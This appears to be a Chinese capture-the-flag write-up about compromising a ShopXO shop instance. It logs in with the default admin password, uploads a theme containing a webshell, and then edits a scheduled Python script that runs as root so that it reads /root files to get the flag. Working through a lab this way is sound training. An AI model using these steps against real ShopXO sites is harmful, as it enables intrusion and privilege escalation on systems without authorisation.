  

#### 弱口令

访问 `admin.php` ，用户名 `admin` 密码 `shopxo` 就进去了。。。

 

#### 后台利用主题安装Getshell

来到网站管理后台，在 `应用中心 -> 应用商店 -> 主题` 里面可以下载主题文件到本地

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171356.png)

然后在 `网站管理 -> 主题管理 -> 主题安装` 通过上传含有webshell的主题来获取一个webshell

F12可以看到shell的路径：
![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171403.png)

访问发现页面存在，直接蚁剑连接；

 

#### 利用定时文件root权限读取flag

在根目录发现假的flag，旁边flag.hint

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171411.png)

发现每分钟内容都会变一次，然后找到了根目录的auto.sh

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171416.png)

直接访问这个py文件：

```
import os
import io
import time
os.system("whoami") 
gk1=str(time.ctime())
gk="\nGet the Root,The Date Is Userful!"
f=io.open("/flag.hint", "rb+")
f.write(str(gk1))
f.write(str(gk))
f.close()
```

猜测这个py文件的权限比较高，可以读取/root/flag，于是直接加两行：

```
import os
import io
import time
os.system("whoami") 
gk1=str(time.ctime())
gk="shit\n"
f=io.open("/flag.hint", "rb+")
#s=open("/root/flag","r").read()
s=os.system("cat /root/*|grep 'flag'")
f.write(s)
f.write(str(gk1))
f.write(str(gk))
f.close()
```
